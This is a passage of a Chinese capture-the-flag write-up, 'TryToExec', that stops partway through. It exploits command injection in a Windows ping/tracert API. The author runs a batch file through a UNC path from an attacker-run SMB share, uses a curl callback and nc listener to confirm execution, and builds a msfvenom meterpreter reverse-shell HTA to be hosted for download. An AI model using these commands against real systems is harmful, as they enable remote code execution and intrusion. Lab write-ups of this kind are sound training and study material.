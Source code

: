 **（六）**

**TryToExec**

  

1、打开靶机，是这样一个界面，可以执行 ping 和 tracert。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/39501807-f374-4ec8-8e41-f042702a8c98.png?raw=true)

从命令返回看是 Windows 系统。

2、抓包，发现这个接口。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/a6e72f63-aabd-4609-b422-04e8426d2d4b.png?raw=true)

是 Python 写的。

请求 /api?action=whoami，发现返回OK。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/1bc88925-349a-48ae-a5f5-f38eab472d2d.png?raw=true)

3、推测后端为 os.subprocess(\[action, 'www.zhaoj.in'\])，可执行文件名可控，结合其为 Windows，可以尝试用 UNC 路径进行攻击。

在自己的VPS上开一个 smb 服务器。

```
docker run -it -p 139:139 -p 445:445 -v /tmp:/share -d dperson/samba -s "public;/share"
```

然后在 /tmp 下创建一个 1.bat。

```
curl http://162.14.79.59:9988
```

给其赋予执行权限。

```
chmod 777 1.bat
```

然后监听端口

```
nc -lvnvp 9988
```

访问 /api?action=\\162.14.79.59\\public\\1.bat, 就可以看到有请求弹回来了。

**4、先生成下 MSF 马。** 

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=162.14.121.186 LPORT=4444 -f hta-psh > shell.hta
```

然后对外放出来。

```
python3 -m http.server 9866
```
